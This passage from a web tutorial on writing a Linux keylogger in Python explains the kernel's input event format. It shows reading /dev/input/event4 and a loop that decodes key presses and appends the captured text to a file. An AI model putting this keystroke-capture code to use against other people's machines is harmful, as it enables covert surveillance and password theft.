 Are you curious like me? Let's see what happens if we directly listen to the keyboard event file:

```bash
cat /dev/input/event4
```

**Output**

![Want to Create a Linux Keylogger Using Python? Here's How!](https://neoslab.com/uploads/medias/2020/02/want-to-create-a-linux-keylogger-using-python-here-s-how-3.png "Want to Create a Linux Keylogger Using Python? Here's How!")

As you can see, the output does not look friendly and is not digest, but it was to give you an overview of the content of the **eventX**.

* * *

### How To Read The Even?

What you need to know is that the **eventX**, does not directly receive the characters hit on the keyboard but a data structure each time a key is pressed. The details of these a data structure are :

- **Timestamp**: The date of the event.
- **Even Code**: The type and code of the event (More information can be found [here](https://www.kernel.org/doc/html/v4.17/input/event-codes.html)).
- **Value**: A number that corresponds to the position of the key pressed.

Below the piece of code that will help us to retrieve all the needed information's:

```bash
FORMAT = 'llHHI'
EVENT_SIZE = struct.calcsize(FORMAT)
in_file = open(infile_path, "rb")
event = in_file.read(EVENT_SIZE)
typed = ""
while event:
    (_, _, type, code, value) = struct.unpack(FORMAT, event)
    if code != 0 and type == 1 and value == 1:
        if code in qwerty_map:
            typed += qwerty_map[code]
    event = in_file.read(EVENT_SIZE)
    if len(typed) == 128:
        with open("out.txt", "a") as f:
            f.write(typed)
            typed = ""
```

Let's see together the purpose of the above piece of code and how we will use it to retrieve the structured data sent to our event file. We start by defining the format **FORMAT** pattern, which it's a string that tells Python what to read and how to sort it. **llHHI** means **long int**, **long int**, **short int**, **short int**, **int**.

After this, we simply unpack the stream and get it into separate variables. The first two **long** store the date which we will not use in this tutorial. The two **short** are the type and the code used. The **int** at the end is the value that interests us.

We then check that the code is different from "0", which means that there was an event with a type equal to "1", which corresponds to a pressed key.
